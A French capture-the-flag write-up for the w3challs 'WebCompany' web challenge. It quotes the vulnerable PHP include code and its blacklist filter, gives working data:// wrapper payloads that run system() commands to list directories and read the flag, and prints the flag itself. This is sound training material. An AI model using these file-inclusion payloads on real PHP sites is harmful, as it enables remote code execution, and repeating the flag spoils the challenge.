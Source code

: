 # WebCompany

1. Tout d'abord, nous allons allé sur le [site](http://webcompany.hax.w3challs.com/) et lire le [code source](https://git.w3challs.com/challenges/hax/tree/master/webcompany).
2. Ensuite, nous appuyons sur le bouton contact et services sur le site Web, nous avons pu trouver un paramètre intéressant "p".
3. Maintenant, recherchons le code source de l’index.php.
    ```php=
    <?php

    ob_start();

    (include_once 'config.php') === false
        ? die
        : (include_once $incDir .'/'. $securityFile . $incExt) === false
            ? die
            : (include_once $incDir .'/'. $headerFile . $incExt) === false
                ? die
                : isset($_GET['p'])
                    ? is_string($_GET['p'])
                        ? secure($_GET['p'])
                            ? include $_GET['p'] . $pageExt
                            : include_once 'home' . $pageExt
                        : include_once 'home' . $pageExt
                    : include_once 'home' . $pageExt;
    (include_once $incDir .'/'. $footerFile . $incExt) === false
        ? ob_clean()
        : null ;

    ob_end_flush();

    ?>
    ```
    Nous savons qu’il obtient "p" pour trouver la page et utiliser la fonction sécurisée pour s’assurer que les mots ne peuvent pas influencer le travail. Cependant, nous recherchons le fichier sercurity.inc.php dans le fichier inc.
    ```php=
    <?php

    if( defined('CONFIG') === false ) die;

    function secure($url)
    {
        define('START',   1);
        define('END',     2);
        define('CONTAIN', 4);
        define('MATCH',   8);

        $filters = Array(
            'http://'  => START,
            'https://' => START,
            'ftp://'   => START,
            'ftps://'  => START,
            'file://'  => START,
            '/'        => START,
            '..'       => CONTAIN
        );

        foreach ($filters AS $rule => $type)
        {
            $rule = preg_quote($rule);
            switch ($type)
            {
                case START   : $pattern = '#^'.$rule.'#i';  break;
                case END     : $pattern = '#'.$rule.'$#i';  break;
                case CONTAIN : $pattern = '#'.$rule.'#i';   break;
                case MATCH   : $pattern = '#^'.$rule.'$#i'; break;
            }
            if (preg_match($pattern, $url))
                return false;
        }

        return true;
    }

    ?>
    ```
    Nous savons que nous ne sommes pas en mesure d’utiliser les mots dans le filtre comme charge utile.
4. C'est une attaque appellé [LFI attack](https://en.wikipedia.org/wiki/File_inclusion_vulnerability). J'ai utilisé le payload dans le [site](https://ctf-wiki.github.io/ctf-wiki/web/php/php/). Voici mon payload. 
    ```url=
    http://webcompany.hax.w3challs.com/index.php?p=data://text/plain,%3C?php%20system(%22ls%22);?%3E
    ```
    Voici la réponse.
    ```html=
    config.php
    contact.page.php
    home.page.php
    inc
    index.php
    services.page.php
    style
    yo
    .page.php
    ```
    Ensuite j'ai utilisé `chdir(yo)` pour visiter le fichier et ça `system("ls")`. Finallement j'ai obtenu le flag. Voici mon payload.
    ```url=
    http://webcompany.hax.w3challs.com/index.php?p=data://text/plain,?php%20chdir(yo);chdir(dawg);chdir(i);chdir(herd);chdir(you);chdir(like);chdir(flagz);system(%22cat%20flagz%22);?%3E
    ```
**5. Voici le flag :** `W3C{d4fuck allow_url_include 1s 0n?!}`
